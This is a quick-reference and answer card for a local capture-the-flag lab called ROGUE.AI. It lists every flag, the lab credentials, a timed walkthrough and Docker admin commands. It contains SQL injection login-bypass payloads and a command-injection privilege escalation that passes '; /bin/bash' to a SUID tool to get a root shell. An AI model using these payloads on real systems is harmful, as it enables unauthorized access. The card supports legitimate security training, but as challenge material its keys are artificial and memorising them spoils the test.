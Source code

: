 # 🤖 ROGUE.AI - Quick Reference Card

## Connection Info
- **Web:** http://localhost:5000
- **SSH:** `ssh ctfuser@localhost -p 2222`

## All Flags (for testing)
1. `CTF{w3lc0me_to_th3_syst3m}`
2. `CTF{sql_1nj3ct10n_m4st3r}`
3. `CTF{ssh_4cc3ss_gr4nt3d}`
4. `CTF{pr1v1l3g3_3sc4l4t10n_pwn3d}`
5. `CTF{4rt3m1s_shutd0wn_c0mpl3t3}`

## Credentials
- **Guest:** guest / guest123
- **Admin:** admin / Sup3rS3cur3P4ss!
- **SSH:** ctfuser / artemis2024

## Quick Commands

### SQL Injection
```sql
' OR '1'='1
admin'--
```

### Linux Commands
```bash
# List files (including hidden)
ls -la

# Read files
cat filename

# Find SUID binaries
find / -perm -4000 2>/dev/null

# Check bash history
cat ~/.bash_history
```

### Privilege Escalation
```bash
# Exploit backup_tool
backup_tool "; /bin/bash"

# Or read root files directly
backup_tool /root/flag4.txt
```

### Final Stage
```bash
# As root
python3 /root/decrypt_tool.py
```

## Stage-by-Stage Speedrun

### Stage 1 (1 min)
1. Open http://localhost:5000
2. Copy FLAG 1 from main page

### Stage 2 (2 min)
1. Enter `' OR '1'='1` in username
2. Click login
3. Go to System Logs
4. Copy FLAG 2

### Stage 3 (1 min)
1. Click File Browser
2. Click config.bak
3. Copy FLAG 3 and SSH credentials

### Stage 4 (3 min)
1. `ssh ctfuser@localhost -p 2222`
2. Password: artemis2024
3. `backup_tool "; /bin/bash"`
4. `cat /root/flag4.txt`
5. Copy FLAG 4

### Stage 5 (1 min)
1. (as root) `python3 /root/decrypt_tool.py`
2. Copy FLAG 5

**Total Time:** ~8 minutes

## Troubleshooting

| Issue | Solution |
|-------|----------|
| Can't access web | Wait 10s after deploy |
| SQL injection not working | Use exact syntax: `' OR '1'='1` |
| SSH refused | Wait 15s for SSH to start |
| Can't see config.bak | Need admin access via SQL injection |
| backup_tool not found | Check `/usr/local/bin/backup_tool` |
| Still not root | Use: `backup_tool "; /bin/bash"` |

## File Locations

```
/home/ctfuser/
├── welcome.txt         # SSH welcome message
├── NOTES.txt          # Hints about backup_tool
└── .bash_history      # Command history with clues

/root/
├── flag4.txt          # Privilege escalation flag
├── artemis_shutdown.enc  # Encrypted final flag
└── decrypt_tool.py    # Decryption script

/usr/local/bin/
└── backup_tool        # Vulnerable SUID binary
```

## Admin Tasks

### Deploy
```bash
./deploy.sh
```

### Check Status
```bash
docker ps | grep artemis
```

### View Logs
```bash
docker-compose logs -f
```

### Reset Challenge
```bash
docker-compose down
docker-compose up -d --build
```

### Access Container
```bash
docker exec -it rogue-ai-artemis bash
```

### Stop
```bash
docker-compose down
```

## Hints at a Glance

💡 **Stage 1:** Just look at the page
💡 **Stage 2:** Try SQL injection: `' OR '1'='1`
💡 **Stage 3:** Look for .bak files
💡 **Stage 4:** Find SUID binaries
💡 **Stage 5:** Run the decrypt script as root

---

**For full details, see:**
- Players: `PLAYER_GUIDE.md`
- Organizers: `README.md` & `SOLUTION.md`

